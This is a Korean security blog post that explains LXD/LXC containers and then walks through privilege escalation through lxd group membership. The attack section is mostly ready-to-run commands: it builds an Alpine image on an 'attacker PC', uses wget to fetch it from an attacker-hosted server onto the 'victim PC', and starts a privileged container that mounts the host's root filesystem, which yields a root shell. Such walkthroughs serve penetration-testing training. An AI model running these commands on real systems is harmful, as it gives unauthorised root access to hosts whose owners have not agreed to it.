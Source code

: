 ```yaml
---
layout: single
title: Privilege Escalation Using LXD_LXC Group Assignment
categories: Other-Vuln
tag: [lxd, lxc, LXD_LXC Group Assignment, Privilege Escalation]
toc: true
author_profile: false
---
```


# LXD/LXC 란 무엇인가?
## lxc
- 리눅스 컨테이너 기술의 초기 형태로, 프로세스와 자원을 격리하여 가벼운 가상화 환경을 제공하는데 사용되며, 이를 통해 머신의 여러 인스턴스를 운영할 수 있다.
- 현재로서는, 개발 및 테스트 환경에서 다양한 리눅스 배포판 및 특정 소프트웨어의 버전 테스트에 사용되며, 여러 서비스를 단일 호스트에서 격리하여 운영할 수 있다.

## lxd 
- lxc를 기반으로 현대적인 시스템 컨테이너 매니저로서, lxc의 상위 레벨 도구이다.
- REST API 를 통해 컨테이너 관리 자동화 및 스크립트화 할 수 있으며, 다양한 네트워크 설정을 지원하고 이미지 서버를 통해 다양한 리눅스 배포판 이미지를 다운로드하고 사용할 수 있다.
- 현재로서는, 개발 테스트, 어플리케이션 배포, 격리된 호스팅 서비스, 클라우드 환경에서의 경량화된 가상 머신 대안으로 사용된다.

# LXD Privilege Escalation
<div class="notice">
  로컬 시스템의 침투에 성공한 경우 sudo 권한이 없더라도 접속한 계정이 lxd 그룹의 포함되어 있다면, 해당 호스트에서 루트로 권한 상승이 가능하다.
  lxd는 lxd unix 소켓에 대한 쓰기 액세스 권한을 가지고 있을 경우, 작업을 수행하는 루트 프로세스이므로, 이를 악용하는 여러 방법이 존재한다.
</div>

![그림 1-1](/assets/image/vuln/Other-Vuln/LXD_LXC/image.png)
- 사진과 같이 115(lxd) 그룹에 속해있을 경우 이를 악용할 수 있게 된다.

<span style="font-weight: bold; color: red;">해당 공격을 수행하기 위해서는 공격자 PC와 희생자 PC에서 수행해야하는 단계들이 존재한다.
 </span>

## 공격자 PC
1. git을 통해 공격자 pc에 build-alpine를 가져온다.
2. build-alpine를 root 권한으로 실행한다.
3. 임의의 웹 서버를 열어 tar파일을 희생자 pc에서 다운받을 수 있도록 한다.

## 희생자 PC
1. alpine 이미지를 다운한다.
2. lxd에 대한 이미지를 가져온다.
3. 새로운 컨테이너 안에서 이미지를 초기화 한다.
4. /root 디레렉터리 내부에 컨테이너를 마운트한다.

### 공격자 PC에서의 사전 준비

```
git clone https://github.com/saghul/lxd-alpine-builder.git<br>
cd lxd-alpine-builder<br>
sudo ./build-alpine
```

![그림 1-2](/assets/image/vuln/Other-Vuln/LXD_LXC/image-1.png)<br>
![그림 1-3](/assets/image/vuln/Other-Vuln/LXD_LXC/image-2.png)

### 희생자 PC에서의 사전 준비

```
wget http://ip:port/~~tar.gz
lxc image import ./~~tar.gz --alias myimage
lxc image list
```

![그림 1-4](/assets/image/vuln/Other-Vuln/LXD_LXC/image-3.png)

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<div class="notice">
  위 과정을 모두 거쳐 정상적으로 root 디렉터리에 마운트가 되면,  root shell을 획득하게 된다.
</div>

<div class="notice">
    <span style="font-weight: bold; color: red;">
        uid=0(root) gid=0(root)
    </span>
</div>

# Referance
- https://www.hackingarticles.in/lxd-privilege-escalation/